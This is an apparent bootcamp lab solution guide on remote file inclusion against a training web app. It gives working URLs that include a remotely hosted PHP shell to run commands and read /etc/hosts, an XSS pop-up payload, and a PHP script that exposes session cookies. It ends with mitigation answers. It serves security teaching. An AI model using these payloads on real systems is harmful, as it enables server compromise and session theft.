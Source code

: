 ## Solution Guide: Remote File Inclusion Activity 

In this activity, you were tasked with first referencing a non-malicious URL to determine how it modifies the webpage. You were then tasked with referencing a remote malicious script contained within a webpage. You then modified the URL to run command-line commands with this malicious script. As a bonus, you were challenged with trying to combine RFI and XSS with a single exploit.

---

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows referencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in your web lab, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file

    - **Solution:** Here are the commands to run:

        - `ls`:  `http://192.168.13.25/vulnerabilities/fi/?cmd=ls&page=https://tinyurl.com/y498epmz`

        - `ps`: `http://192.168.13.25/vulnerabilities/fi/?cmd=ps&page=https://tinyurl.com/y498epmz`

        - `cat the /etc/hosts file`: `http://192.168.13.25/vulnerabilities/fi/?cmd=cat%20../../../../../etc/hosts&page=https://tinyurl.com/y498epmz`
        
4. **Bonus:** Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that includes XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the pop-up!

    - **Solution:** The URL to get the XSS payload to execute:

      - `http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/yxk853vy`

5. **Super Bonus:** Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint:** Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint:** To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

    - **Solution**

      - The script to pop up the session cookie will look like the following:

              <?php 
              $html = <<<EOT

              <script>alert(document.cookie)</script>

                EOT;

                echo $html;
                ?> 
                
      - Save the script in <pastie.org>, then select Save Paste > Raw.

        - A new URL will be created. For example:

          - `http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`

          - Note that your URL will be different.
          
      - Reference the example URL with the following URL:

        - `http://192.168.13.25/vulnerabilities/fi/?page=http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`
        
      - A pop-up will display your session cookies! 

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers; if a web application is vulnerable to remote file injection, a variety of malicious payloads can be exploited. The impact can include the following:

          - Display of confidential data, such as user accounts, password hashes, service accounts, network information, or system processes.
        
          - Deletion or modification of the preceding confidential data, which can lead to reputation issues and system outages.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

      - There are many acceptable answers, all involving input validation. Options can include the following:
      
          - Limit access to remote files in your web application.
      
          - Use server-side validation to only allow certain files to be accessed, if the file has to be remote.
      
          - DO NOT use arbitrary input data in a literal file inclusion request when developing an application.
      
            - Use an allow list of acceptable files and file types.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
